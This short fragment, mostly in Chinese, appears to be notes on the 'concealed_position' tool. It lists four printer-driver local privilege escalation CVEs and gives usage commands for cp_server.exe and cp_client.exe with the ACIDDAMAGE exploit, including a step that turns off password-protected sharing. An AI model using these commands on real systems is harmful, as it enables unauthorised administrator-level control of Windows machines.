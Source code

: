 	https://github.com/jacob-baines/concealed_position
	CVE-2021-35449 - Lexmark 通用打印驱动程序 LPE
	CVE-2021-38085 - 佳能 TR150 打印驱动程序 LPE
	CVE-2019-19363 - Ricoh PCL6 打印驱动程序 LPE
	CVE-2020-1300 - Windows 打印后台处理程序 LPE
	cp_server.exe -e ACIDDAMAGE
	获取打印机
	设置“高级共享设置”->“关闭密码保护共享”
	cp_client.exe -r 10.0.0.9 -n ACIDDAMAGE -e ACIDDAMAGE
	cp_client.exe -l -e ACIDDAMAGE